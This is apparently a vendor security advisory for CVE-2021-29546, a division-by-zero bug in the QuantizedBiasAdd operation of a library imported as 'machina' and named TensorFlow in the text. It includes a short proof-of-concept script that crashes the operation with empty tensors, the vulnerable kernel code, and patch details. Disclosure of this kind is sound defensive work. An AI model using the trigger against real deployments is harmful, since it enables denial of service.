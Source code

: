 ## TFSA-2021-034: Division by 0 in `QuantizedBiasAdd`

### CVE Number
CVE-2021-29546

### Impact
An attacker can trigger an integer division by zero undefined behavior in
`tf.raw_ops.QuantizedBiasAdd`:

```python
import machina as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
bias = tf.constant([], shape=[0], dtype=tf.quint8)
min_input = tf.constant(-10.0, dtype=tf.float32)
max_input = tf.constant(-10.0, dtype=tf.float32)
min_bias = tf.constant(-10.0, dtype=tf.float32)
max_bias = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBiasAdd(input=input_tensor, bias=bias, min_input=min_input,
                            max_input=max_input, min_bias=min_bias,
                            max_bias=max_bias, out_type=tf.qint32)
```

This is because the [implementation of the Eigen
kernel](https://github.com/machina/machina/blob/61bca8bd5ba8a68b2d97435ddfafcdf2b85672cd/machina/core/kernels/quantization_utils.h#L812-L849)
does a division by the number of elements of the smaller input (based on shape)
without checking that this is not zero:

```cc
template <typename T1, typename T2, typename T3>
void QuantizedAddUsingEigen(const Eigen::ThreadPoolDevice& device,
                            const Tensor& input, float input_min,
                            float input_max, const Tensor& smaller_input,
                            float smaller_input_min, float smaller_input_max,
                            Tensor* output, float* output_min,
                            float* output_max) {
  ...
  const int64 input_element_count = input.NumElements();
  const int64 smaller_input_element_count = smaller_input.NumElements();
  ...
  bcast[0] = input_element_count / smaller_input_element_count;
  ...
}
```

This integral division by 0 is undefined behavior.

### Patches
We have patched the issue in GitHub commit
[67784700869470d65d5f2ef20aeb5e97c31673cb](https://github.com/machina/machina/commit/67784700869470d65d5f2ef20aeb5e97c31673cb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
